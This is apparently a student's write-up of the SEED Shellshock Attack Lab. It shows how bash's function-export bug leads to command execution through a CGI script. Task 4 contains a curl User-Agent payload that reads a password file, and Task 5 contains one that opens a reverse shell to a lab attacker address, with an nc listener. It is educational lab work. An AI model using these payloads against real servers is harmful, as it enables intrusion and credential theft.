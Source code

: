 ```yaml
---
title: Shellshock Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Shellshock.pdf

# Task 1

## Experiment

Use the following commands to define a shell function, export it into the environment, and then observe if it prints `'extra'` when calling the child shell with `/bin/bash_shellshock` or `/bin/bash`.

```sh
$ foo='() { echo "hello world"; }; echo "extra";'
$ export $foo
```

As expected, using `/bin/bash_shellshock` leads to extra print out while it is clear in `/bin/bash`.


# Task 2

```sh
$ su
$ cp myprog.cgi /usr/lib/cgi-bin
$ sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
```

# Task 3

The `Apache` creates a child process to execute `bash_shellshock` with function `exec()`, and `$$` will be replaced by `bash_shellshock` with the ID of the current process. So `strings /proc/$$/environ` will be correctly executed while parsing the HTTP request.

# Task 4

For instance, I can steal passwords of the server using

```sh
$ curl -A "() { echo hello;}; echo Content-type: text/plain; echo; /bin/cat /etc/password;" http://localhost/cgi-bin/myprog.cgi
```

However, because `/etc/shadow` is only readable to `root`, I cannot steal the content of the file unless the webserver is launched by `root`.

# Task 5

- The attacker: `10.0.2.15`
- The server: `10.0.2.4`

![the attacker's IP address](./ip_addr.png)

First, build a TCP connection:

```sh
$ nc -lv 9090
```
~~It is blocked with listening on the port `9090` and print the information of whatever it fetches. Just keep the shell running and finish the following command in another shell~~

Then start a new shell and make use of the `shellshock` to map the server's `stdin`/`stdout` to local shell.

```sh
$ curl -A "() { echo hello;}; echo Content-type: text/plain; echo; echo; /bin/bash -i -> /dev/tcp/10.0.2.15/9090 0<&1 2>&1" http://10.0.2.4/cgi-bin/myprog.cgi
```

So, a reverse shell is created.

![Reverse Shell](./reverse_shell.png)

# Task 6

Reproduction of [Test 3](#Test-3) is successful while the ones of the other two tasks fail.

Because the output of environment variables is done directly by the bash itself rather than passing to any caller. The behavior will not be influenced by the version of the shell.

